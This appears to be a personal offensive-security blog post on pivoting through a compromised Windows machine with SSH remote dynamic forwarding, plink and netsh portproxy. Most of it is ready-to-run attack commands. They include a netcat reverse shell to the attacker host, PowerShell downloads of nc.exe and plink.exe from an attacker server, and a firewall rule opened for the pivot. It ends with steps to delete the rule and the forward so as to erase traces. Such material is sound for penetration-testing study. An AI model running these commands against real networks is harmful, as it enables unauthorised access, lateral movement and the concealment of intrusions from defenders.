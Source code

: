 ```yaml
---
layout: post
title: Windows Port Forwarding
titledate: 09/24/23
tags: ["infosec", "offsec", "tunnel", "plink", "netsh", "ssh"]
---
```


#### Windows SSH tools

windows has ssh and several other bundled tools available by default since win 1803 and an option since 1709 

by default ssh is located in %systemdrive%\Windows\System32\OpenSSH

if our DMZ target1 has ssh installed we can use that to setup a remote dynamic port forward

on our attacking machine

    $ sudo systemctl start ssh

then on our attacking machine we connect via rdp to the connection that has ssh installed via rdp

    $ xfreerdp /u:rdp_user /p:password /v:192.168.1.1

to check for ssh in windows

    $ where ssh

    $ ssh.exe -V

if the versin of ssh is higher than 7.6 then we can use remote dynamic port forwarding

now we open up the remote dynamic listening session on our kali machine

    target1: ssh -N -R 9998 attacker@192.168.1.1

to check the port is listening on our kali machine

    $ ss -ntplu

update /etc/proxychains4.conf

    socks5 127.0.0.1 9998

in this example the postgres db is on an internal network we cannot reach but our ssh windows machine can , now that we have remote dynamic port forwarding setup, we can use proxychains with psql to connect to this internal db

    $ proxychains psql -h 10.4.50.1 -U postgres

#### plink

what if ssh has been removed

one of the advantages of plink is it is not as readily flagged as an unwanted communication tool compared to some other more well known tools

to run plink we first need to copy over netcat to our windows machine

i do this with a python server

    $ cp /usr/share/windows-resources/binaries/nc.exe .

    $ python3 -m uploadserver

or if we have a shell only

    target1:> powershell wget -Uri http://192.168.10.10/nc.exe -OutFile C:\Windows\Temp\nc.exe

then on windows i can download the the executable

setup a netcat listener on our attacker

    $ nc -nvlp 4446

on the windows taget connect to the nc listener

    $ C:\Windows\Temp\nc.exe -e cmd.exe 192.168.1.1 4446

then we copy plink over to windows

    $ cp /usr/share/windows-resources/binaries/plink.exe .

if no gui an shell only

    C:> powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

once plink is copied over

    $ C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.1.1

then on our kali host we can check that 9833 is listening

    $ ss -ntplu

now we can conect to the attacking machine loopback interface through port 9983 via rdp through the plink remote port forward

    $ xfreerdp /u:rdp /p:password /v:127.0.0.1:9833

#### netsh

netsh does require admin privs to setup port forwarding but it is a native windows tool

in this example we want to connect to an internal pg db via an ssh port forward and have admin rdp access to a target windows machine

we rdp to the machine

    $ xfreerdp /u:rdp /p:password /v:192.168.1.1

because we can run cmd as admin we do so

    C:> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.1.1 connectport=22 connectaddress=10.4.1.1

here we use netsh to create a listening external interface 2222  forward traffic to the pg db port 22 

we can use netstat to see our listening ports

    C:> netstat -anp TCP | find "2222"

and check our port forward setup

    C:> netsh interface portproxy show all

now we can check the port from our attacking machine

    $ sudo nmap -sS 192.168.1.1 -Pn -n -p2222

it is possible that a firewall is blocking 2222 if it reports filtered

if this is the case we can use netsh again to create a firewall rule to allow connections on this port

    C:> netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.1.1 localport=2222 action=allow

now if the port is open we can connect from our attacking kali machine to port 2222 on our listening target1 windows machine and directly reach port 22 on the internal pg db machine

    $ ssh database_admin@192.168.1.1 -p2222

after our attack is complete we can delete both the firewall rule and port forward to erase our steps

    C:> netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
    C:> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.1.1


